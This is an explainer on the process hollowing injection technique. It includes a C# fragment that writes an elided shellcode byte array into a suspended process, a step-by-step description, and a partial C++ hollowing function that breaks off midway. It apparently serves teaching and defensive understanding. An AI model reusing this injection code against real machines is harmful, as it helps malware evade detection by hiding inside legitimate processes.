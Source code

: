 ```csharp
            byte[] buf = new byte[734] {0xfc,0x48,0x83,0xe4,0xf0,
 ...                                     0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,0xd5};

            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);

            ResumeThread(pi.hThread);
        }
    }
}
```


### **Process Hollowing: An In-Depth Analysis**

**Process hollowing** is a sophisticated code injection technique where an attacker spawns a legitimate process in a suspended state, replaces its code with malicious code, and then resumes the process, making it appear as if the legitimate process is running while it is executing the injected malicious code. This method is often used to evade detection by security mechanisms because the malicious code runs under the guise of a trusted process.

### **Steps Involved in Process Hollowing**

1. **Create a Suspended Process**: The attacker first creates a new process in a suspended state using functions like `CreateProcess` with the `CREATE_SUSPENDED` flag. This allows the process to be created without starting execution immediately.

2. **Unmap the Legitimate Process Memory**: The memory where the legitimate process's code resides is unmapped using `ZwUnmapViewOfSection`. This removes the original executable code, leaving an empty address space.

3. **Map the Malicious Code into the Process**: The attacker allocates memory in the process's address space and writes the malicious code into it. The malicious code could be a DLL or shellcode.

4. **Adjust the Entry Point**: The entry point of the process is adjusted to point to the start of the malicious code. This ensures that when the process is resumed, the malicious code will execute.

5. **Resume the Process**: Finally, the attacker resumes the process using `ResumeThread`. The process now starts executing the malicious code instead of the original legitimate code.

### **Example Code for Process Hollowing (C/C++)**

```cpp
#include <windows.h>
#include <winternl.h>

bool HollowProcess(const char* pwszTargetPath, const char* pwszMaliciousPath) {
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    // Step 1: Create the process in a suspended state
    if (!CreateProcessA(pwszTargetPath, nullptr, nullptr, nullptr, FALSE, CREATE_SUSPENDED, nullptr, nullptr, &si, &pi)) {
        return false;
    }

    // Step 2: Get the base address of the image in the process
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    if (!GetThreadContext(pi.hThread, &ctx)) {
        TerminateProcess(pi.hProcess, 0);
        return false;
    }

    // Get the base address from the PEB (Process Environment Block)
    PVOID pImageBase;
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + 0x10), &pImageBase, sizeof(PVOID), nullptr);
```